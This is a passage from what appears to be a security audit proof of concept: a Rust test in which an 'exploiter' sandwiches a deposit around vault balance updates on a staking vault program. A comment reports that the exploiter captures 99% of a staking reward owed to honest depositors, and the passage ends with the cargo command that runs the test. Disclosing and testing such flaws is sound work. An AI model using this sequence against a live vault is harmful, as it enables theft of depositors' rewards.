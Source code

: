 ```rust
            Ok(()) => {},
            Err(e) => {eprintln!("Error: {:?}", e); return;}
        }

        //Exploiter move: update vault tracker (without update_balance), deposit, update balance and enqueue withdraw
        let res = vault_program_client.do_full_vault_update_no_balance(&vault_root.vault_pubkey,&operator_pubkeys).await; 
        let res = vault_program_client.do_mint_to(&vault_root, &exploiter, exploiter_deposit_amount, 0).await;
        let res = vault_program_client.update_vault_balance(&vault_root.vault_pubkey).await;
        let exploiter_vrt_wallet = &get_associated_token_address(&exploiter.pubkey(), &vault.vrt_mint);
        let exploiter_vrt_wallet_account = fixture.get_token_account(&exploiter_vrt_wallet).await.unwrap();
        let exploiter_withdrawal_ticket_info = vault_program_client
            .do_enqueue_withdrawal(&vault_root, &exploiter, exploiter_vrt_wallet_account.amount).await.unwrap();


        //an attempt to delegate half of the exploiter's deposited funds fails because they had already enqueued a withdrawal
        let res = vault_program_client.do_add_delegation(&vault_root, &operator_pubkeys.get(0).unwrap(), exploiter_deposit_amount/2).await;
        match res {
            Ok(()) => {},
            Err(e) => {eprintln!("Error Delegating Exploiter Funds: {:?}", e);}
        }
        //Outputs "Program log: Insufficient funds in vault for delegation" Error

        //warp two epocs
        fixture.warp_slot_incremental(epoch_length*2).await.unwrap(); 
        vault_program_client.do_full_vault_update(&vault_root.vault_pubkey,&operator_pubkeys).await.unwrap();

        //exploiter finalizes withdrawal
        let exploiter_st_bal_before = fixture.get_token_account(&exploiter_st_wallet).await.unwrap().amount;   
        let res = vault_program_client.do_burn_withdrawal_ticket(
            &vault_root,
             &exploiter, 
            &exploiter_withdrawal_ticket_info.base, 
            &config.program_fee_wallet).await;
        let exploiter_st_bal_after = fixture.get_token_account(&exploiter_st_wallet).await.unwrap().amount;     
        let exploiter_withdrawn_st = exploiter_st_bal_after.saturating_sub(exploiter_st_bal_before);
        println!("Exploiter deposited st: {exploiter_deposit_amount}, widhdrawn st: {exploiter_withdrawn_st}, ST gains: {} ",exploiter_withdrawn_st.saturating_sub(exploiter_deposit_amount)  );
        //Output: Exploiter deposited st: 1000000, widhdrawn st: 1000990, ST gains: 990 
        //Exploiter managed to gain 99% of the 1000 ST reward that was received for the staking of honest depositor funds within up to 2 epocs
    }
}

```

3. Run `RUST_LOG=off RUST_BACKTRACE=1 cargo nextest run --nocapture sandwitch_update_balance`

